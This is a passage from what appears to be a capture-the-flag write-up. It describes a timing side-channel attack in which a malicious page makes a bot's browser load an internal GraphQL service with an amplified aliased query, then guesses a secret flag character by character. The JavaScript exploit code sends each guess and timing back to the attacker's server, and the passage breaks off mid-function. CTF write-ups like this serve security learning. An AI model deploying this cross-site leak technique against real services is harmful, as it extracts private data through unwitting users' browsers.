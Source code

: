 ```graphql
}
fragment t2 on CharactersTypeDefEdge {
  foo: node {...t}
  bar: node {...t}
  baz: node {...t}
}
```

### Putting it all together
#### Malicious page
We make the bot bruteforce characters on its side. This is where our guess will be the most accurate (avoid network randomness).
```html
<html>
<head>
</head>
<body>
<script type="text/javascript">
  const url = 'http://jjk_db:9090/?query={getCharacters(filters: { and: [{ name: "Choso" }, { notesIlike: "%__FUZZ__%" }] }) {a01: edges {...t2},a02: edges {...t2},a03: edges {...t2},a04: edges {...t2},a05: edges {...t2},a06: edges {...t2},a07: edges {...t2},a08: edges {...t2},a09: edges {...t2},a11: edges {...t2},a12: edges {...t2},a13: edges {...t2},a14: edges {...t2},a15: edges {...t2},a16: edges {...t2},a17: edges {...t2},a18: edges {...t2},a19: edges {...t2},a21: edges {...t2},a22: edges {...t2},a23: edges {...t2},a24: edges {...t2},a25: edges {...t2},a26: edges {...t2},a27: edges {...t2},a28: edges {...t2},a29: edges {...t2},a31: edges {...t2},a32: edges {...t2},a33: edges {...t2},a34: edges {...t2},a35: edges {...t2},a36: edges {...t2},a37: edges {...t2},a38: edges {...t2},a39: edges {...t2},a41: edges {...t2},a42: edges {...t2},a43: edges {...t2},a44: edges {...t2},a45: edges {...t2},a46: edges {...t2},a47: edges {...t2},a48: edges {...t2},a49: edges {...t2},a51: edges {...t2},a52: edges {...t2},a53: edges {...t2},a54: edges {...t2},a55: edges {...t2},a56: edges {...t2},a57: edges {...t2},a58: edges {...t2},a59: edges {...t2}}},fragment t on CharactersTypeDef {name,id,occupation,cursedTechnique,imgFile,notes,__typename},fragment t2 on CharactersTypeDefEdge {a01: node {...t},a02: node {...t},a03: node {...t},a04: node {...t},a05: node {...t},a06: node {...t},a07: node {...t},a08: node {...t},a09: node {...t},a11: node {...t},a12: node {...t},a13: node {...t},a14: node {...t},a15: node {...t},a16: node {...t},a17: node {...t},a18: node {...t},a19: node {...t},a21: node {...t},a22: node {...t},a23: node {...t},a24: node {...t},a25: node {...t},a26: node {...t},a27: node {...t},a28: node {...t},a29: node {...t},a31: node {...t},a32: node {...t},a33: node {...t},a34: node {...t},a35: node {...t},a36: node {...t},a37: node {...t},a38: node {...t},a39: node {...t},a41: node {...t},a42: node {...t},a43: node {...t},a44: node {...t},a45: node {...t},a46: node {...t},a47: node {...t},a48: node {...t},a49: node {...t},a51: node {...t},a52: node {...t},a53: node {...t},a54: node {...t},a55: node {...t},a56: node {...t},a57: node {...t},a58: node {...t},a59: node {...t}}'
  const chars = "abcdefghijklmnopqrstuvwxyz0123456789}"
  let start = Date.now();
  let baseFlag = 'maple{'
  let chars_idx = 0

  function loadFrame() {
    start = Date.now();
    document.getElementById("frame").src = url.replace("__FUZZ__", baseFlag + chars[chars_idx])
  }
  
  function onLoad() {
    let dt = (Date.now() - start) / 1000
    fetch('/a?secSpent=' + dt + "&flag=" + baseFlag + chars[chars_idx])

    if(dt > 0.15) {
      baseFlag += chars[chars_idx]
      chars_idx = 0
    } else if(chars[chars_idx] != '}') {
      chars_idx += 1
    } else {
      baseFlag += '_'
```